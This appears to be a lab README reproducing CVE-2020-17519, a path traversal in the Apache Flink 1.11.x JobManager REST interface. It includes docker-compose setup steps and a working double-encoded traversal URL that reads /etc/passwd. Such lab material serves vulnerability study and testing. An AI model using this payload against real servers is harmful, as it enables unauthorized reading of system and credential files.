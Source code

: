 # Apache Flink `jobmanager/logs` Path Traversal (CVE-2020-17519)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

A change introduced in Apache Flink 1.11.0 (and released in 1.11.1 and 1.11.2 as well) allows attackers to read any file on the local filesystem of the JobManager through the REST interface of the JobManager process.

References:

- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker-compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Disclose the `/etc/passwd`:

```
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![](1.png)